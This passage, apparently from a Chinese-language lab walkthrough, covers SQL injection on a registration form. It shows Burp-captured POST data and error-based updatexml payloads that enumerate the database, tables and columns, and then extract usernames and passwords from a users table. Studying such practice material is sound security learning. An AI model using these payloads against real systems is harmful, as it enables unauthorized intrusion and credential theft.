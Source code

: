 可以尝试使用`'`来闭合让它本身的命令出现混乱：

![image-20220119200340516](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/04%20SQL%20inject.assets/image-20220119200340516.png)

得到结果：

![image-20220119200355226](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/04%20SQL%20inject.assets/image-20220119200355226.png)

一边注册一边burpsuite抓个包。从抓包结果看是post型的，除了submit之外有6个参数。

>1、猜闭合
>
>post data填写：
>
>`username=xixi','111')#&password=666666&sex=&phonenum=&email=&add=&submit=submit`
>
>结果报错了，说列数不对。
>
>其实到这边已经可以基本确认这关闭合是单引号了，但是为了严谨，重新构造如下payload：
>
>`username=xixi','111','222','333','444','555')#&password=666666&sex=&phonenum=&email=&add=&submit=submit`
>
>注册成功，说明闭合确实是单引号。
>
>2、爆库
>
>从上面的操作可以看出来，注册页面是没有sql结果回显的，而且毕竟也不是select语句，也不能采取联合查询注入了。
>
>不过从上一步的操作可以看出来，注册的时候如果sql语句有问题是会报错的，因此报错注入行得通。
>
>payload：`username=xixi' or updatexml(1,concat(0x7e,(select database()),0x7e),1) or '&password=666666&sex=&phonenum=&email=&add=&submit=submit`
>
>payload里面是or或者and都可以，注意最后可以不用注释符，把第一个参数的单引号闭合就可以了。
>
>3、爆表
>
>payload：`username= ' or updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1) or '&password=666666&sex=&phonenum=&email=&add=&submit=submit`
>......
>
>4、爆列
>
>payload：`username= ' or updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users'),1,31),0x7e),1) or '&password=666666&sex=&phonenum=&email=&add=&submit=submit`
>
>......
>
>5、爆数据：
>
>payload：`username= ' or updatexml(1,concat(0x7e,substr((select group_concat(concat(username,';',password)) from users),1,31),0x7e),1) or '&password=666666&sex=&phonenum=&email=&add=&submit=submit`
>......